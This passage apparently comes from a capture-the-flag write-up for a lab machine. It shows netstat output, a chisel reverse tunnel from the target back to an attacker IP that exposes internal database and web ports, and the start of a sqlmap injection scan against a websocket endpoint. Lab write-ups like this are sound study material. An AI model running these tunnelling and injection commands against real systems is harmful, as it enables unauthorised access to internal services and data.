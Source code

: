 ```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1089/nginx: worker  
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      1089/nginx: worker  
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
- need to perform a port forwarding from target so we can access the internal port from localhost 
```
#on target
$ ./chisel client 10.10.14.28:9999 R:3000:127.0.0.1:3000 R:9091:127.0.0.1:9091 R:3306:127.0.0.1:3306 R:33060:127.0.0.1:33060
2025/06/03 16:11:46 client: Connecting to ws://10.10.14.28:9999
2025/06/03 16:11:49 client: Connected (Latency 340.039183ms)

#on attacker
$ ./chisel server -p 9999 --reverse
2025/06/03 12:08:44 server: Reverse tunnelling enabled
2025/06/03 12:08:44 server: Fingerprint D0ssBSBeVfY7TgkjtW9pXJYbJnjAflU8qUPh+qIxPpE=
2025/06/03 12:08:44 server: Listening on http://0.0.0.0:9999
2025/06/03 12:12:26 server: session#1: tun: proxy#R:3000=>3000: Listening
2025/06/03 12:12:26 server: session#1: tun: proxy#R:9091=>9091: Listening
2025/06/03 12:12:26 server: session#1: tun: proxy#R:3306=>3306: Listening
2025/06/03 12:12:26 server: session#1: tun: proxy#R:33060=>33060: Listening
```
 


Q7: What is the one non-default database found on the target?
 - we can use nmap to enumerate the database serving on the websocket
```
─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' -b --fingerprint --batch --level 5 --risk 3
        ___
       __H__                                                                                                                                                
 ___ ___["]_____ ___ ___  {1.9.2#stable}                                                                                                                    
|_ -| . ["]     | .'| . |                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:58:27 /2025-06-03/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
```